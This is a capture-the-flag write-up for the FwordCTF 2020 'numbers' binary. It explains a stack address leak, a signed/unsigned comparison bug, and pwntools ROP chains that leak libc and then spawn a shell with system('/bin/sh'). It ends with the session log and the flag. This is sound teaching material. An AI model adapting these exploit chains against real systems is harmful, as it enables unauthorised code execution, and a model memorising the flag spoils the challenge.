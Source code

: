 # Numbers

We are given a 64-bit executable:
```bash
$ file numbers
numbers: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8f76f3042db00cbbb5da977e530fac85c27dff93, stripped
```

The following protections are enabled:
```bash
checksec numbers
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see that no stack canary is present. This usually means that there will be a buffer overflow we can exploit.

The program asks for a number `<=60`, asks us if we are sure and then repeats the whole process, as long as we do not answer `n` to the `try again ?` dialogue:
```bash
 ./numbers

do you have any number in mind ??
42
are yo sure ??
yes
yes

try again ?
sure

do you have any number in mind ??
are yo sure ??

try again ?
```

Time to analyze the programm. The function `are_you_sure` reads up to the number of bytes we specified and then prints this out using `printf("%s", buf);`. Here lies the first weakness. The string we provide is reflected without being `null` terminated. Thus, we can leak addresses on the stack by providing a string that is a multiple of 8 bytes long (including `\n`). 

```c
__int64 __fastcall are_you_sure(unsigned int num)
{
  char buf[64]; // [rsp-40h] [rbp-40h] BYREF

  puts("are yo sure ??");
  read(0, buf, num);
  printf("%s", buf);
  return 0LL;
}
```

We can leak the PIE base using this code:
```python
def leak_addr(number):
    io.sendlineafter("do you have any number in mind ??", str(number))
    payload = "A"*(number-1)
    io.sendlineafter("are yo sure ??", payload)
    io.recvline()
    io.recvline()
    leak = io.recvline()
    leak = u64(leak.strip().ljust(8, "\x00"))
    return leak
```

Now we need to find a way to control `RIP`. The `read_number` function verifies whether our number is less or equal than 60.
The program converts our inpupt to an unsigned integer, but performs a signed comparison. By providing a negative number, we can makes the signed check true,
but then return on a huge unsigned number as return value. This number will then be used in the `are_you_sure` function (see above) to read that many bytes into a 64-byte buffer. Because canaries are disabled, we can get RIP control easily. 

```c
__int64 __fastcall read_number(int *num)
{
  __int64 result; // rax
  char buf; // [rsp-8h] [rbp-8h] BYREF

  puts("\ndo you have any number in mind ??");
  read(0, &buf, 8uLL);
  *num = atoi(&buf);
  result = (unsigned int)*num;
  if ( (int)result <= 60 )
    return result;
  puts("you're a naughty boy..");
  exit(1);
  return result;
}
```

We now use this overflow to leak a libc adress (puts) and return to the start of main, so we can exploit the buffer overflow again:
```python
io.sendlineafter("try again ?", "")
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# Rop chain to leak libc
rop_exe =  ROP(exe)
rop_exe.puts(exe.got.puts)
rop_exe.call(piebase + 0x9c5) # main

#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # local
libc = ELF('./libc6_2.28-0ubuntu1_amd64.so') # remote

# create payload
payload = "A"*64
payload += "B"*8
payload += str(rop_exe)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")
```

Analyzing the address of the leak and using the [libc database](https://libc.blukat.me/) we identify that `libc6_2.28-0ubuntu1_amd64.so` is used on the remote server. Knowing this, we can  exploit the buffer overflow a second time, now calling `system('/bin/sh')`. We just have to make sure that `RSP` is 0x10 bytes aligned (which it was not if called directly). We could do this using a `pop` gadget or by calling puts with some value and hoping to have better alignment:

```python
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# create system('/bin/sh') rop chain
rop = ROP(libc)
rop.puts(libc.sym.puts) # stupid pivot because of 0x10 alignment for rsp
rop.system(next(libc.search("/bin/sh")))

#print rop.dump()

payload = "A"*64
payload += "B"*8
payload += str(rop)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")

io.interactive()
```

Running the script gives us a shell and we can read the flag:

```bash
$  numbers python xpl.py
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[+] piebase: 0x5560f04c7000
[*] Loaded 14 cached gadgets for 'numbers'
[*] '/home/vagrant/CTF/fword/numbers/libc6_2.28-0ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] libc address: 0x7f22d22fc000
[*] Loaded 196 cached gadgets for './libc6_2.28-0ubuntu1_amd64.so'
[*] Switching to interactive mode
o�1�"AUATI\x89�USH����ls
flag.txt
numbers
ynetd
$ cat flag.txt
FwordCTF{s1gN3d_nuMb3R5_c4n_b3_d4nG3r0us}
$
```

The full exploit can be found in [xpl.py](https://github.com/ybieri/ctf-writeups/edit/master/FwordCTF2020/numbers/xpl.py).

